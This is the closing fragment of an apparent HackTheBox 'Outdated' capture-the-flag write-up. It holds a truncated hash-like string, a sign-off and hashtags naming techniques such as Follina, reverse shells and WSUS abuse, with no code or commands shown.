3ed306fa59ff2e6c...Happy Hacking! 🚀
#HackTheBox #Outdated #Writeup #Cybersecurity #Penetration Testing #CTF #Reverse Shell #RCE #Exploit #Windows #SMB Enumeration #CVE-2022-30190 #Follina #Bloodhound #Abusing AddKeyCredentialLink #Writing MsDS-KeyCredentialLink #User Pivoting #Abusing WSUS #Privilege Escalation